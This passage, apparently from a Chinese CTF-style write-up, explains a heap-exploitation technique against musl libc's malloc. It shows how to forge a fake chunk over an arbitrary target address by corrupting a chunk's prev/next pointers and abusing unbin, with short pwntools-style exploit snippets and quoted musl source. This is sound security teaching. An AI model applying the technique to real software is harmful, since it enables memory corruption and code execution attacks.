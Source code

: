 由于 malloc 不检查 chunk 的头部，只要 fake chunk 的`prev`和`next`指针指向合法地址，就能通过 unbin 从 bin 链表中取出，即`*(uint64_t*)(fake_chunk + 2)`和`*(uint64_t*)(fake_chunk + 3)`的值是一个可写的内存块地址。

除了利用现有的 fake chunk，我们还可以利用 unbin 在任意内存块上构造 fake chunk：

```
fake_chunk = target - 0x10

edit(3, p64(fake_chunk) + p64(fake_chunk))
add(0x10) # 3, unbin
```

假设待控制的内存块地址为`target`。将 chunk 3 的`prev`和`next`指针同时设为`target - 0x20`，然后 unbin。

[![](https://p4.ssl.qhimg.com/t01cadec260e8b24a98.png)](https://p4.ssl.qhimg.com/t01cadec260e8b24a98.png)

unbin 之前。

[![](https://p0.ssl.qhimg.com/t01493e7225dedb3e7c.png)](https://p0.ssl.qhimg.com/t01493e7225dedb3e7c.png)

经过 unbin 之后，fake chunk 的`prev`和`next`指针被 unbin 改写为 fake chunk 地址，恰好满足构造条件。

```
free(n) # chunk n 的大小为 0x20
```

然后释放一个 0x20 字节的 chunk。

```
// src/malloc/malloc.c L188-L191
static void unbin(struct chunk *c, int i)
`{`
    if (c-&gt;prev == c-&gt;next)
        a_and_64(&amp;mal.binmap, ~(1ULL&lt;&lt;i));

[...]
`}`
```

```
void __bin_chunk(struct chunk *self)
`{`

[...]
    // src/malloc/malloc.c L482-L483
    if (!(mal.binmap &amp; 1ULL&lt;&lt;i))
        a_or_64(&amp;mal.binmap, 1ULL&lt;&lt;i);

[...]
`}`
```

这是因为当`prev`和`next`指针相等时，unbin 会将`mal.bins[0]`设置为空 bin。导致`mal.bins[0]`不可用。只要释放任意 0x20 的 chunk ，`mal.bins[0]`就能重新设置为非空 bin。

注意待释放的 chunk 前后不能有空闲 chunk，否则 free 将其进行合并，导致 chunk 被释放到其他的 bin 中。
